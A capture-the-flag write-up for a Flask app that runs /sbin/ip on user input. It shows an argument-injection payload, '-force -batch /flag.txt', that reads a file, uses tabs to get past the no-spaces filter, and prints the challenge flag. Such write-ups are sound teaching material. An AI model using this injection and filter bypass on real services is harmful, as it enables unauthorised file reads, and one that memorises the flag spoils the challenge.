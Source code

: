 # NetworkNavigatorsOdeyssey_A_Phoenix_Rebirth
## Write up

we were given this flask app
```py
from flask import Flask, render_template, request
import subprocess
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/', methods=['POST'])
def ip():
    option = request.form['option']
    # Check that user input doesn't contain any spaces
    if " " in option:
        return "No spaces are allowed."
    # Double the check by spliting user input into an array before passing it securely to subprocess.check_output()
    option = ['/sbin/ip'] + option.split()
    
    try:
        # Use shell=False to prevent any shell injections
        result = subprocess.check_output(option, text=True,timeout=1,stderr=subprocess.STDOUT, shell=False)
        return f'{result}'
    except subprocess.CalledProcessError as e:
        return f'Error: {e.output}'
    except Exception as e:
        return f"Error {e}"

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000,debug=True)

```

the program takes our input split it and excute the ip command with our arguemt

how we can trick it to read the flag we cant inject commands because **shell=False**
but we can inject argument there is a cool website that can help finds something interesting
https://gtfobins.github.io/

we find that we can use this argument to read a file
```
-force -batch FILE
```

so will pass this 
```
-force -batch /flag.txt
```

but there is a check for spaces on our unput so can we bypass that 

of corse we can do that by replacing the space with a tab

here is the final soltion

```
-force	-batch	/flag.txt
```

here is the flag : shellmates{5laugh73r_7h3_Pho3niXx!___1njec7_1T_w1tH_@rgum3ntSs!!}



